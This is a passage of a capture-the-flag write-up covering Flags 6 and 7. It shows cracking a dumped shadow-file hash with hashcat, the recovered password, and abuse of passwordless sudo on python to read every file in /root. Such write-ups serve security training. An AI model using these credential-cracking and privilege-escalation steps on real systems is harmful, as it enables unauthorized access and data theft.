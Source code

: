 The full shadow file can be found at `Flag 6/shadow.out`.

Off to OCL Hashcat to crack this hash.

`$6$1Jd5DXoG$OhmKkC7CAN8E.CXeyV2eRhcOYM.qcRvGYI1BXFKKkCmyCsaUXkwXpRvb0AKsi1FuYuCefpSLpK4XQnN9v9ACP.:linuxgentoo`
```                                                        
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$1Jd5DXoG$OhmKkC7CAN8E.CXeyV2eRhcOYM.qcRvGYI1BXFK...v9ACP.
Time.Started.....: Wed Jul 12 20:01:13 2017 (3 mins, 1 sec)
Time.Estimated...: Wed Jul 12 20:04:14 2017 (0 secs)
Guess.Base.......: File (usedhashes/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:    33865 H/s (7.54ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 6190726/14343296 (43.16%)
Rejected.........: 51846/6190726 (0.84%)
Restore.Point....: 6133621/14343296 (42.76%)
Candidates.#1....: llljmbb4l -> lilreeceere2k8
HWMon.Dev.#1.....: Temp: 85c Util: 99% Core:1037MHz Mem:2505MHz Bus:16

Started: Wed Jul 12 20:01:04 2017
Stopped: Wed Jul 12 20:04:16 2017
```

Our flag is `linuxgentoo`. This also serves as a password we can use to ssh into the box.

---

## Flag 7

Flag 7 deals with the post exploitation of the box we compromised in Flag 6.

### Post Exploitation

I quickly made my way over to `/etc/sudoers`.

`$ cat /etc/sudoers | grep "sshuser"`

Output:

```
sshuser ALL=NOPASSWD: /usr/bin/python
```

What files do we have in root?

```Python
#!/usr/bin/python
import os

for filename in os.listdir("/root/"):
    print (filename)
    f = open('/root/'+filename,'r')
    message = f.read()
    print(message)
    f.close()
```
